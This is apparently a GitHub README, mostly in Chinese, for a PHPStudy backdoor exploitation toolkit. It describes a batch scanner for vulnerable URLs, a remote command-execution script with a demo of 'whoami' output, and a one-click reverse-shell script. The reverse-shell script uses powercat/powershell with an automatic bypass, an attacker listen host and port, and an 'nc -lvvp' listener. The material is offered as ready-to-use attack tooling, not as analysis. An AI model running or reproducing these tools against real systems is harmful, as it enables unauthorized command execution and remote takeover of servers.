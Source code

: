 # PHPStudy_BackDoor

### phpstudy_backdoor_poc.py
	多进程批量检测脚本，自动读取urls.txt中内容，然后进行批量检测
	检测结果如发现漏洞会存入phpstudy_backdoor_urls.txt中

##### 运行demo：
```
python phpstudy_backdoor_poc.py

[+] http://127.0.0.1 is vulnerable.
[-] http://192.168.1.1 is invulnerable.
[*] http://192.168.1.2 Looks Like Something Wrong.
[*] http://192.168.1.3 Looks Like Something Wrong.
```

### phpstudy_backdoor_exp.py
	漏洞利用脚本，操作精简。
	Usage: python3 phpstudy_backdoor_exp.py [url] [command]

##### 运行demo：
```
python phpstudy_backdoor_exp.py 127.0.0.1 whoami

[+] Command Execute Successful.
rabbitmask\rabbitmask
```

### phpstudy_backdoor_shell.py
	脚本一键反弹shell，自动bypass，关于原理后边给教程，简单说借助了powercat、powershell等，所以请在powershell中执行`set-executionpolicy remotesigned`允许脚本执行。
	Usage: python3 phpstudy_backdoor_exp.py [url]
	#请配置监听地址与端口
	listen_host='192.168.1.254'
	listen_port='6666'

##### 运行demo：
```
python phpstudy_backdoor_shell.py 127.0.0.1

nc -lvvp [port]
```

